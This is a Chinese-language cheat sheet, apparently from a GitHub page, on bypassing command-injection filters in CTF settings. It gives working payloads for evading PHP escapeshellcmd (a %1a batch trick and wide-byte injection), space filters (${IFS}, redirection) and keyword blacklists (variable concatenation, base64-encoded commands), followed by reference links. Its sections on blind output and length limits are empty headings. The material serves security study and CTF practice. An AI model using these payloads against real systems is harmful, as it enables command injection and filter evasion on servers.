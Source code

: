 # 绕过escapeshellcmd
## 法一：执行bat
```
<?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    var_dump($escaped_command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?>
```
执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。
payload:
```
dir=../ %1a whoami
```
## 法二：宽字节注入
php5.2.5及之前可以通过输入多字节来绕过。现在几乎见不到了。
```
escapeshellcmd("echo ".chr(0xc0).";id"); 
```
之后该语句会变成
```
echo 繺;id 
```
从而实现 id 命令的注入。

# 空格过滤
## 法一： ${IFS}
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ cat flag
nice day
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}flag
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}$9flag
nice day
```
payload3:
```
ubuntu@VM-207-93-ubuntu:~$ cat$IFS$9flag
nice day

```
## 法二： 重定向符<>
payload1：
```
ubuntu@VM-207-93-ubuntu:~$ cat<>flag
nice day
```
payload2：
```
ubuntu@VM-207-93-ubuntu:~$ cat<flag
nice day
```

# 黑名单绕过
## 法一： 拼接
```
ubuntu@VM-207-93-ubuntu:~$ a=c;b=at;c=flag;$a$b $c
nice day
```
## 法二： 利用已存在的资源
从已有的文件或者环境变量中获得相应的字符。

## 法三： base64编码
``
ubuntu@VM-207-93-ubuntu:~$ `echo "Y2F0IGZsYWc="|base64 -d`
nice day
```

# 无回显

# 长度限制

# LINUX下一些已有字符
+ ${PS2} 对应字符 '>'
+ ${PS4} 对应字符 '+'
+ ${IFS} 对应字符 空白
+ ${9}   对应 空字符串

# 工具
+ [shelling
](https://github.com/ewilded/shelling)
# Refference
+ [PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)
+ [eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
+ [关于lnmp目录禁止执行的绕过与正确方法](https://www.leavesongs.com/PENETRATION/nginx-deny-exec-php-file.html)
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
+ [php webshell分析和绕过waf技巧](http://bobao.360.cn/learning/detail/3271.html)
+ [【技术分享】命令执行和绕过的一些小技巧](http://bobao.360.cn/learning/detail/3192.html)
+ [浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html)
+ [Mathias:命令执行的bypass技巧](http://www.math1as.com/index.php/archives/484)
